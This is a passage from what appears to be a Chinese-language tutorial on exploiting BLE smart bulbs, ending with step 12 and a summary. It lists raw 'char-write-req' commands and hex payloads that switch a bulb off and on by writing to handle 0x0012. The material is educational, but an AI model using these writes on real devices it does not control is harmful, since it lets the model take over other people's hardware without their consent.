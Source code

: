 第12步：若要打开和关闭灯泡，可以更改数据中的开/关位 



```
char-write-req 0x0012 03c90006000a030101010000000000000000 //Off
char-write-req 0x0012 03c90006000a0300010100ff000000000000 //On
char-write-req 0x0012 03c90006000a030101010000000000000000 //Off
char-write-req 0x0012 03c90006000a0300010100ff000000000000 //On
```



03c90006000a030101010000000000000000将关闭灯泡，RGB值应为零，否则灯泡不会关闭

03c90006000a0300010100ff0000000000000将打开灯泡，这里RGB值是强制性的。

<br>

**总结**

本文介绍了如何利用基于BLE的智能灯泡的安全漏洞，在将来的文章中，我们将继续研究其他BLE的漏洞利用技术、Zigbee漏洞利用技术等，敬请期待。
